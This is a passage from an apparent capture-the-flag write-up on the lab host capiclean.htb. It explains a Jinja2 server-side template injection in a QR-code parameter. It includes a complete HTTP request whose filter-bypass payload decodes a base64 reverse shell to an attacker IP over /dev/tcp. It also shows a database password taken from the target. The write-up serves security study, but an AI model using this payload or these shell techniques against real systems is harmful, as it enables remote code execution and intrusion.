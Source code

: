 This one is tricky. If you put `http://capiclean.htb`, it'll send a request to that link, and embed the b64 of the response inside an img element; otherwise, it'll just reflect your input inside the said img element.

I've tried to get a file disclosure by looking for `/etc/passwd`, `app.py`, `config.py` (the backend is using Flask) but with no success.
I've also tried to change the proto to `file://` but no use.

Then I moved to SSTI.
But here's the catch: if you try to inject your payload in a `qr_link` that looks like this `http://capiclean.htb/static/qr_code/qr_code_011361180{{3*3}}.png` you won't get anything (actually you will get a b64 of the server's 404 response page, which is useless)
Otherwise, if you run an STTI without the `http://capiclean.htb`, the injection will succeed.
This happens because in the moment you include that link into the `qr_link` param, it won't reflect your input on the page, as we said before, but it'll send a request (because it is actually expecting the URL of a QR code, so it's trying to include the QR into the response)

Moving forward, I've tried different ways to access the `subclasses()` function to get an RCE, but everything failed. So I looked for some SSTI RCE bypasses and found this interesting blogpost https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
Which helped me to build a working payload and achieve RCE on the target.

```
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://capiclean.htb/QRGenerator
Content-Type: application/x-www-form-urlencoded
Content-Length: 353
Origin: http://capiclean.htb
DNT: 1
Connection: close
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZmQmJA.FIfdUUuAeazSa2-W_mUGf9JClFw
Upgrade-Insecure-Requests: 1

form_type=scannable_invoice&qr_link={{request.application|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo -n YmFzaCAtYyAnYmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4xMjkvOTAwMSAgMD4mMSAn | base64 -d | bash')|attr('read')()}}
```

---

## User

```
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```
